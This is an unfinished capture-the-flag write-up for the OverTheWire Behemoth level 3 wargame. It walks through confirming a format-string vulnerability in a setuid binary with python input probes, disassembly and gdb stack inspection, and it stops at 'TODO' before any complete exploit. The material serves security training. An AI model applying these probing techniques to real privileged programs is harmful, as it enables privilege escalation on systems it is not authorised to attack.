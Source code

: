 #Behemoth3

behemoth.labs.overthewire.org

**Username:** behemoth3
**Password:** see [behemoth2](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Behemoth/Behemoth2)
**Description:**  

This wargame deals with a lot of regular vulnerabilities found commonly 'out in the wild'. While the game makes no attempts at emulating a real environment it will teach you how to exploit several of the most common coding mistakes including buffer overflows, race conditions and privilege escalation. 

##Write-up

You know the routine by now.

```
# file behemoth3
behemoth3: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=c5dbd3c173034d55cfef4bb66829b1bd1ec42d22, not stripped
```

```
# ~/checksec.sh --file behemoth3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   behemoth3
```

```
# ./behemoth3 
Identify yourself: AAAA
Welcome, AAAA

aaaand goodbye again.
```

Let's throw in the psudeocode for ```main``` just for good measure.

```C
int main(int arg0) {
    printf("Identify yourself: ");
    eax = *__TMC_END__;
    fgets(((esp & 0xfffffff0) - 0xe0) + 0x18, 0xc8, eax);
    printf("Welcome, ");
    printf(((esp & 0xfffffff0) - 0xe0) + 0x18);
    puts("\naaaand goodbye again.");
    return 0x0;
}
```

A quick try of a few commands and we are well on our way.

```
# python -c 'print "A"*1000' | ./behemoth3
Identify yourself: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
aaaand goodbye again.
```

Clear it's not a buffer overflow.

```
# python -c 'print "A"*4+"%x"*10' | ./behemoth3
Identify yourself: Welcome, AAAAc8f778fc2000f77db0004141414178257825782578257825782578257825

aaaand goodbye again.
# python -c 'print "A"*4+"%x"*6' | ./behemoth3
Identify yourself: Welcome, AAAAc8f777cc2000f77c800041414141

aaaand goodbye again.
```

And even more clear that we're dealing with a string format vulnerability.  It looks like our ```0x41414141``` is popped off after 6 ```%x```.  We can definately reference back to [narnia7](https://github.com/Alpackers/CTF-Writeups/tree/master/Misc/OverTheWire/Narnia/Narnia7) for this one. Let's first try to locate the memory address where our input starts as that will likely be where we want to point back to.

```asm
             main:
0804847d         push       ebp                                                 ; XREF=_start+23
0804847e         mov        ebp, esp
08048480         and        esp, 0xfffffff0
08048483         sub        esp, 0xe0
08048489         mov        dword [ss:esp], 0x8048570                           ; "Identify yourself: ", argument "format" for method j_printf
08048490         call       j_printf
08048495         mov        eax, dword [ds:__TMC_END__]                         ; __TMC_END__
0804849a         mov        dword [ss:esp+0x8], eax                             ; argument "stream" for method j_fgets
0804849e         mov        dword [ss:esp+0x4], 0xc8                            ; argument "size" for method j_fgets
080484a6         lea        eax, dword [ss:esp+0x18]
080484aa         mov        dword [ss:esp], eax                                 ; argument "str" for method j_fgets
080484ad         call       j_fgets
080484b2         mov        dword [ss:esp], 0x8048584                           ; "Welcome, ", argument "format" for method j_printf
080484b9         call       j_printf
080484be         lea        eax, dword [ss:esp+0x18]
080484c2         mov        dword [ss:esp], eax                                 ; argument "format" for method j_printf
080484c5         call       j_printf
080484ca         mov        dword [ss:esp], 0x804858e                           ; "\\naaaand goodbye again.", argument "s" for method j_puts
080484d1         call       j_puts
080484d6         mov        eax, 0x0
080484db         leave      
080484dc         ret        
                        ; endp
```

We can set a breakpoint after we read our input and examine the stack.

```
# python -c 'print "A"*4+"%x"*6' > input
# gdb behemoth3
(gdb) break * 0x080484b2
Breakpoint 1 at 0x80484b2
(gdb) run < input
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/CTF/OverTheWire/behemoth/behemoth3 < input

Breakpoint 1, 0x080484b2 in main ()
(gdb) x/25x $esp
0xffffd170:	0xffffd188	0x000000c8	0xf7fb1c20	0x00000000
0xffffd180:	0x00000000	0xf7ffd000	0x41414141	0x78257825
0xffffd190:	0x78257825	0x78257825	0xffff000a	0x08048200
0xffffd1a0:	0xffffd208	0xf7ffda8c	0x00000000	0xf7fd9b58
0xffffd1b0:	0x00000001	0x00000000	0x00000001	0xf7ffd930
0xffffd1c0:	0xf7ff6300	0x00000000	0xf7e0a940	0x00000001
0xffffd1d0:	0x00000003
```

Looks like we can start with ```0xffffd188```.  Let's move our breakpoint down and go ahead and setup the logic needed to start calculating our values.

```
(gdb) delete breakpoints
Delete all breakpoints? (y or n) y
(gdb) break * 0x080484c5
Breakpoint 2 at 0x80484c5
```

TODO
